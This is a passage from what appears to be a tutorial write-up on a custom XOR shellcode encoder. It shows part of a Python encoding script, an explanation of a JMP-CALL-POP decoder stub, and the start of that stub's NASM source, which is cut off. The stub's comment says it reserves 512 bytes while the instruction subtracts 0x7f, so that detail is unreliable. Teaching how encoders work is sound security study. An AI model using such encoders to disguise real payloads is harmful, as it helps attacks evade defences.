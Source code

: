 ```python
                # Check that resulting shellcode doesn't contain null bytes
                if (r ^ shellcode_original[i] != 0) and (r ^ shellcode_original[i+1] != 0) and (r ^ shellcode_original[i+2] != 0) and (r ^ shellcode_original[i+3] != 0):
                        xor_byte_good = True

        # Encoded shellcode contains XOR byte + next 4 bytes reversed
        shellcode_encoded.append(r)
        shellcode_encoded.append(shellcode_original[i+3] ^ r)
        shellcode_encoded.append(shellcode_original[i+2] ^ r)
        shellcode_encoded.append(shellcode_original[i+1] ^ r)
        shellcode_encoded.append(shellcode_original[i] ^ r)

# Add end of shellcode marker
shellcode_encoded.append(0x90)
shellcode_encoded.append(0x90)
shellcode_encoded.append(0xaa)
shellcode_encoded.append(0xaa)

# Print out the output
decoder_stub_hex = ''.join('\\x{}'.format(hex(ord(x))[2:]) for x in decoder_stub)
shellcode_original_hex = ''.join('\\x{:02x}'.format(x) for x in shellcode_original)
shellcode_encoded_hex = ''.join('\\x{:02x}'.format(x) for x in shellcode_encoded)
shellcode_encoded_nasm = ''.join('0x{:02x},'.format(x) for x in shellcode_encoded).rstrip(',')
print('[+] Original shellcode (len: {}): {}\n'.format(len(shellcode_original), shellcode_original_hex))
print('[+] Encoded shellcode (len: {}): {}\n'.format(len(shellcode_encoded), shellcode_encoded_hex))
print('[+] Encoded shell in NASM format: {}\n'.format(shellcode_encoded_nasm))
print('[+] Encoded shellcode /w decoder stub (len: {}): {}\n'.format(len(decoder_stub) + len(shellcode_encoded), decoder_stub_hex + shellcode_encoded_hex))
```

The decoder uses the *JMP CALL POP* technique to push the address of the encoded shellcode on the stack. The decoder stub then makes room for 512 bytes on the stack by decreasing `$esp` by 512.

We use the `$edx` to keep track of the offset from the start of the encoded shellcode.

For each 4 bytes tuple, the bytes are stored as follows:
- 1st byte: `$bl`
- 2nd byte: `$bh`
- 3rd byte: `$cl`
- 4th byte: `$ch`

Then we XOR each byte with the key, located at `[$esi + $edx]` and store the results on the stack in reverse order. After each tuple is decoded, the decoder stub checks if the marker is reached and jumps to the shellcode on the stack if that's the case.

The complete decoder stub code if shown here:
---------------------------------------------

```nasm
global _start

section .text

_start:
        jmp short call_shellcode

decoder:
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        pop esi             ; address of shellcode
        mov edi, 0xaaaa9090 ; end of shellcode marker
        sub esp, 0x7f       ; make room on the stack (512 bytes)
```